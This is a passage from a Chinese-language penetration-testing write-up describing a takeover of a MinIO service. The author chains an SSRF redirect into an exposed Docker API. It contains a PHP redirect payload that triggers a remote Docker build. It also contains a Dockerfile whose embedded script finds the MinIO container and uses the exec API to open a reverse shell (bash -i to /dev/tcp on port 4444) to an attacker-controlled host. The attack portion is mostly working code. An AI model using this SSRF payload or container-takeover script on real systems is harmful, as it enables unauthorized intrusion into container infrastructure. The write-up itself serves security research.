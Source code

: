 ```
<?php
header('Location: http://192.168.227.131:2375/build?remote=http://192.168.1.142:4443/Dockerfile&nocache=true&t=evil:1', false, 307);
```

进行SSRF攻击，等待了一会儿，果然收到请求了：

![](http://wikioss.peiqi.tech/vuln/minio-9.png)

完美，我们已经可以在目标集群容器里执行任意命令了。

此时离我们的目标，拿下MinIO，还差一点点，后面的攻击其实就比较简单了。

因为现在可以执行任意命令，我们就不会再受到SSRF漏洞的限制，可以直接反弹一个shell，或者可以直接发送任意数据包到Docker API，来访问容器。经过一顿测试，我发现MinIO虽然是运行的一个service，但实际上就只有一个容器。

所以我编写了一个自动化攻击MinIO容器的脚本，并将其放在了Dockerfile中，让其在Build的时候进行攻击，利用`docker exec`在MinIO的容器里执行反弹shell的命令。这个Dockerfile如下：

```shell
FROM alpine:3.13

RUN apk add curl bash jq

RUN set -ex && \
    { \
        echo '#!/bin/bash'; \
        echo 'set -ex'; \
        echo 'target="http://192.168.227.131:2375"'; \
        echo 'jsons=$(curl -s -XGET "${target}/containers/json" | jq -r ".[] | @base64")'; \
        echo 'for item in ${jsons[@]}; do'; \
        echo '    name=$(echo $item | base64 -d | jq -r ".Image")'; \
        echo '    if [[ "$name" == *"minio/minio"* ]]; then'; \
        echo '        id=$(echo $item | base64 -d | jq -r ".Id")'; \
        echo '        break'; \
        echo '    fi'; \
        echo 'done'; \
        echo 'execid=$(curl -s -X POST "${target}/containers/${id}/exec" -H "Content-Type: application/json" --data-binary "{\"Cmd\": [\"bash\", \"-c\", \"bash -i >& /dev/tcp/192.168.1.142/4444 0>&1\"]}" | jq -r ".Id")'; \
        echo 'curl -s -X POST "${target}/exec/${execid}/start" -H "Content-Type: application/json" --data-binary "{}"'; \
    } | bash
```

这个脚本所干的事情比较简单，一个是遍历了所有容器，如果发现其镜像的名字中包含`minio/minio`，则认为这个容器就是MinIO所在的容器。拿到这个容器的Id，用exec的API，在其中执行反弹shell的命令

[Youtube 演示链接](https://www.youtube.com/embed/WyDEn0wUhPc)

当然，我们也可以通过Docker API来获取集群权限

## 参考文章

https://www.leavesongs.com/PENETRATION/the-collision-of-containers-and-the-cloud-pentesting-a-MinIO.html